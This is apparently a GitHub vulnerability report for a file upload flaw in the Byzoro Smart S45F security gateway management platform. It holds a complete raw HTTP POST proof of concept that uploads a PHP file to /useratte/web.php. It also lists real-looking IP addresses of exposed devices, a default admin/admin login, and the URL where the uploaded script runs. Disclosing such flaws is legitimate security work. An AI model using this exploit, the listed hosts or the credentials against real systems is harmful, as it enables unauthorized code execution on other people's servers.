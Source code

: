 Beijing Baizhuo Network Technology Co., Ltd. (hereinafter referred to as Baizhuo Network) is a high-tech enterprise dedicated to building the next generation of secure Internet. Byzro Networks Smart S45F multi-service security gateway intelligent management platform has a file upload vulnerability. Attackers can exploit vulnerabilities to gain server privileges or cause business impact on the system.

official：https://www.byzoro.com/

version: S45

Vulnerability Path ：/useratte/web.php

Ip：https://103.121.164.62:8443/

Account password: admin/admin

poc:

```
POST /useratte/web.php? HTTP/1.1
Host: 222.180.2.66:8443
Cookie: PHPSESSID=3b0048dc500aea61e25f3b1de573f65d
User-Agent: Mozilla/5.0 (Windows NT 6.1; Win64; x64; Trident/7.0; rv:11.0) like Gecko
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: multipart/form-data; boundary=---------------------------42328904123665875270630079328
Content-Length: 598
Origin: https://222.180.2.66:8443
Referer: https://222.180.2.66:8443/sysmanage/licence.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Te: trailers
Connection: close

-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="file_upload"; filename="2.php"
Content-Type: application/octet-stream

<?php phpinfo()?>
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="id_type"

1
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="1_ck"

1_radhttp
-----------------------------42328904123665875270630079328
Content-Disposition: form-data; name="mode"

import
-----------------------------42328904123665875270630079328—


```

<img width="594" alt="image" src="https://github.com/llixixi/cve/assets/144869546/ba89ccba-2191-4bbc-85c5-5082f2761fb4">


https://103.121.164.62:8443/upload/2.php

<img width="604" alt="image" src="https://github.com/llixixi/cve/assets/144869546/937eea05-260f-44c1-9aa9-d3ae32ecb7bd">



